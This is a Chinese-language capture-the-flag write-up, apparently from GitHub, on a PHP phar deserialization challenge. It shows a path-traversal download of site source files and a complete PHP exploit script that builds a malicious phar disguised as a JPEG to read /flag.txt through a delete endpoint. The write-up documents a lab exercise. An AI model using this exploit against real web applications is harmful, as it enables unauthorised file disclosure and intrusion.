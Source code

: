 # phar反序列化
<font size=4>
首先打开界面注册登陆。进去发现是上传文件的题目。

首先先传一个正常的图片过去，没有问题。

![](./image/phar_1.png)

这里发现图片有下载和删除的功能。抓包看看。

![](./image/phar_2.png)

这里发现有明文参数filename。直接改成

	filename=file:///var/www/html/index.php

发现可以下载源码，之后随意抓一些操作，发现整体的文件有index.php,login.php,upload.php,download.php,class.php。全部下载下来。然后就没有思路了。查看大神的WP，发现

****在class里面存在file的close()可以读取到文件内容。并且可以通过USER的destruct来调用。****

在复现的时候需要把php.ini里的`phar.readonly`改成off。生成phar文件.

最后改包传上去，在调用删除，直接读取flag.txt，在返回的包里就可以看到flag。

附上exp：

	<?php
	/**
	 * Created by PhpStorm.
	 * User: jinzhao
	 * Date: 2019/6/11
	 * Time: 2:44 PM
	 */
	//1. 用这个构造一个 phar.phar
	//2. 重命名为 phar.jpg，传上去
	//3. POST 访问 /delete.php ，filename = phar://phar.jpg/exp.txt
	//4. flag 到手~
	class User {
	    public $db;
	}
	class FileList {
	    private $files;
	    private $results;
	    private $funcs;
	    public function __construct() {
	        $file = new File();
	        $file->filename = '/flag.txt';
	        $this->files = array($file);
	        $this->results = array();
	        $this->funcs = array();
	    }
	}
	class File {
	    public $filename;
	}
	ini_set('phar.readonly',0);
	@unlink("phar.phar");
	$phar = new Phar("phar.phar"); //后缀名必须为phar
	$phar->startBuffering();
	$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
	$o = new User();
	$o->db = new FileList();
	$phar->setMetadata($o); //将自定义的meta-data存入manifest
	$phar->addFromString("exp.txt", "glzjin"); //添加要压缩的文件
	//签名自动计算
	$phar->stopBuffering();
	?>